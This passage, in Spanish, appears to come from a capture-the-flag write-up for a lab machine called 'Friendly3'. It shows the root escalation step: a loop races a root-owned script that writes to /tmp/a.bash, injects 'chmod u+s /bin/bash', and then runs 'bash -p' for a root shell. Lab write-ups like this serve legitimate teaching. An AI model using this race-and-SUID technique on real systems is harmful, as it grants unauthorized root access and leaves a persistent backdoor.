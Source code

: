   <img src="/assets/img/commons/Friendly/appFriendly3.png" alt="SagaFriendly">
  <figcaption style="font-style: italic; font-size: smaller;">App Friendly3</figcaption>
</figure>
- El script copia una bash (como root) en el directorio `/tmp/a.bash`, asigna una serie de permisos y luego borra el fichero.
- Vamos a crear una "OneLine" para que ejecute un comando antes de que `a.bash` sea borrada y así injectar permisos `SUID` a la bash.

```bash
$> while true; do echo "chmod u+s /bin/bash" > /tmp/a.bash && echo "Ok"; done # 
```
- Ahora la bash es `SUID`.
<figure style="text-align: center;">
  <img src="/assets/img/commons/Friendly/bashFriendly3.png" alt="SagaFriendly">
  <figcaption style="font-style: italic; font-size: smaller;">Escalation Friendly3</figcaption>
</figure>

- `bash -p` -> para elevar privilegios.
##### <font color="#245bdb">ROOT</font>
- <font color="#e36c09">PWNED!</font>
